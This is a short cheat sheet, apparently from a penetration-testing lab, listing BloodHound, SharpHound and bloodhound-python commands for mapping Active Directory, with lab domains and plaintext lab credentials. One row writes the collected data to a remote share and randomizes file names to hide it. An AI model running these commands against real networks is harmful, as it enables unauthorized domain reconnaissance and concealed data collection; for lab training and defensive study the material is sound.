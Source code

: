 


# BloodHound

| Command                                                                                                                            | Description                                                                                                                           |
| ---------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------- |
| `.\SharpHound.exe -c all --zipfilename inlanefreight_bloodhound`                                                                   | Run the SharpHound C# ingestor                                                                                                        |
| `.\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames` | Randomize and hide SharpHound Output                                                                                                  |
| `Invoke-BloodHound -CollectionMethod all -ZipFileName ilfreight_bloodhound`                                                        | Run the SharpHound PowerShell ingestor                                                                                                |
| `bloodhound-python -dc <DC> -gc <GC> -d <DOMAIN -c All -u <user>`                                                                  | Run bloodhound-python                                                                                                                 |
| `bloodhound-python -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -c All -dc dc01.vintage.htb`                                        |                                                                                                                                       |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 -k`                               |                                                                                                                                       |
| `shell-session<br>bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 --kerberos`      | ```shell-session<br>bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 --kerberos<br>``` |
